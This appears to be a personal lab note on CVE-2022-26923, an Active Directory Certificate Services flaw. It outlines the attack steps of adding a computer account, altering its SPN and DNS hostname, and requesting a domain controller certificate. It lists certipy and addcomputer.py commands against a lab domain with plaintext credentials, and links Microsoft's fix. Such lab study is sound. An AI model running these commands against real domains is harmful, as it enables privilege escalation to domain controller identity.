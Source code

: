 # ADCS CVE-2022-26923

## ADCS (Active Directory Certificate Services)

This is the CA, PKI from Microsoft. This will be used for delegating trusts (strictly inside the domain) to users and computers.

## Why this is used
- Encrypt the file system
- Digital signature
- **User authentication**

## Certificate templates
- User (Domain users)
	- UPN (User Principal name) --> SAN (Subject Alternative Name) [Authentication, Idenityty]
- machine (Domain computers)
	- **DNSHostname** [Authen (SPN --> Kerberos), Identity]
## Validity write
- DNShostname
- SPN (Service Principal Name) [Admin != Low privilege Accnt]
## Step
- Foothold
- Register on Computer in the DC
- Remove the SPN
- Chnaging the DNShostname
- Get the Certificate with DNShostname of DC --> done!
## Commands
certipy find -u fcastle@marvel.local -p Password1 -bloodhound -dc-ip 192.168.80.139

certipy req -username fcastle@marvel.local -password Password1 -ca MARVEL-HYDRA-DC-CA -target 192.168.80.139 -template User

certipy auth -pfx fcastle.pfx -dc-ip 192.168.80.139

addcomputer.py marvel.local/fcastle:Password1 -method LDAPS -dc-ip 192.168.80.139 -computer-name 'NEW_PC' -computer-pass 'Password1'

certipy req -u NEW_PC$ -password Password1 -ca MARVEL-HYDRA-DC-CA -target 192.168.80.139 -template Machine 


## Fixes
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923




